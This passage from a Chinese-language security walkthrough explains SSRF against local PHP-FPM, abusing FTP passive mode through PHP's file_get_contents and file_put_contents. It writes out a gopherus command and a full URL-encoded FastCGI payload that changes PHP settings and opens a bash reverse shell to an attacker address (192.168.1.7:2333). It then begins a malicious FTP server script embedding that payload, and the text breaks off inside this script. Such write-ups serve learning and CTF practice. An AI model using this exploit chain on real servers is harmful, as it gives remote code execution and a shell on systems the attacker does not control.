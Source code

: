 现在，你可能已经知道这是怎么回事：我们将使用 FTP 协议的被动模式让 `file_get_contents` 在我们的服务器上下载一个文件，当它试图使用
`file_put_contents` 把它上传回去时，我们将告诉它把文件发送到 127.0.0.1:9000。

这样，我们就可以向目标主机本地的 PHP-FPM 发送一个任意的数据包，从而执行代码，造成 SSRF。

下面我们来演示一下攻击过程。

首先，我们使用gopherus生成攻击fastcgi的payload：

    
    
    python gopherus.py --exploit fastcgi
    /var/www/public/index.php  # 这里输入的是目标主机上一个已知存在的php文件
    bash -c "bash -i >& /dev/tcp/192.168.1.7/2333 0>&1"  # 这里输入的是要执行的命令
    

得到 payload，同样是只需要 payload 中 `_` 后面的数据部分，即：

    
    
    %01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%07%07%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH103%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%19SCRIPT_FILENAME/var/www/public/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00g%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.7/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
    

在攻击机上设置好监听：

然后编写如下脚本（脚本是从网上扒的：[https://github.com/Maskhe/evil_ftp，谁叫我菜呢，大佬勿喷~~），在攻击机上搭建一个恶意的](https://github.com/Maskhe/evil_ftp%EF%BC%8C%E8%B0%81%E5%8F%AB%E6%88%91%E8%8F%9C%E5%91%A2%EF%BC%8C%E5%A4%A7%E4%BD%AC%E5%8B%BF%E5%96%B7~~%EF%BC%89%EF%BC%8C%E5%9C%A8%E6%94%BB%E5%87%BB%E6%9C%BA%E4%B8%8A%E6%90%AD%E5%BB%BA%E4%B8%80%E4%B8%AA%E6%81%B6%E6%84%8F%E7%9A%84)
ftp 服务，并将上面的 payload 中的数据替换掉下面 ftp 脚本中的 payload 的内容：

    
    
    # -*- coding: utf-8 -*-
    # @Time    : 2021/1/13 6:56 下午
    # @Author  : tntaxin
    # @File    : ftp_redirect.py
    # @Software:
    
    import socket
    from urllib.parse import unquote
    
    # 对gopherus生成的payload进行一次urldecode
    payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%07%07%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH103%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%19SCRIPT_FILENAME/var/www/public/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00g%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.7/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")
    payload = payload.encode('utf-8')
    